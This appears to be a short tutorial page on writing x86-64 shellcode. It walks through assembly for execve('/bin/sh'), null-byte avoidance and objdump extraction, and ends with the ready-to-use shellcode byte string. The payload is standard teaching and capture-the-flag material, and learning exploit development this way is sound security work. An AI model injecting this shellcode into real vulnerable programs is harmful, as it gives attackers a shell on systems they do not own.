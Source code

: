 # Shellcoding

Use ASM instructions to set up the stack for your desired actions.  
Compile the program and use `objdump` to pull apart the binary and get the opcodes (shellcode).  

Avoid null bytes, they will likely kill the shellcode execution:  
e.g. use `xor rax, rax` instead of `mov rax, 0`.  

## Example 64bit execve("/bin/sh")

```asm
; Compile with "nasm -f elf64 sh.asm -o sh.o"
; Link "ld sh.o -o sh"

section .text
    global _start

_start:
    xor rax, rax;   ; optional if the program the function you are returning from sets RAX to 0
    push rax;   ; Puts a zero on the stack to terminate our /bin/sh string
    xor rsi, rsi;   ; Set RSI to 0
    xor rdx, rdx;   ; Set RDX to 0
    mov rbx, 0x68732f6e69622f2f;    ; Move "//bin/sh" into RBX (2 slashes to completely fill the register)
   ; For 32 bit: push a 0 value to the stack, then //sh then /bin
    push rbx;   ; move "//bin/sh" to the stack
    mov rdi, rsp;   ; Pointer to "//bin/sh" in RDI
    mov al, 0x3b;   ; execve syscall number
    syscall;
```

After compiling and linking, get opcodes with `objdump -d sh` (second column contains your shellcode):  

```bash
bin_sh:     file format elf64-x86-64

Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 c0                xor    %rax,%rax
  401003:       50                      push   %rax
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 31 d2                xor    %rdx,%rdx
  40100a:       48 bb 2f 2f 62 69 6e    movabs $0x68732f6e69622f2f,%rbx
  401011:       2f 73 68 
  401014:       53                      push   %rbx
  401015:       48 89 e7                mov    %rsp,%rdi
  401018:       b0 3b                   mov    $0x3b,%al
  40101a:       0f 05                   syscall
```

Gives the following shellcode:  

`\x48\x31\xc0\x50\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05`  
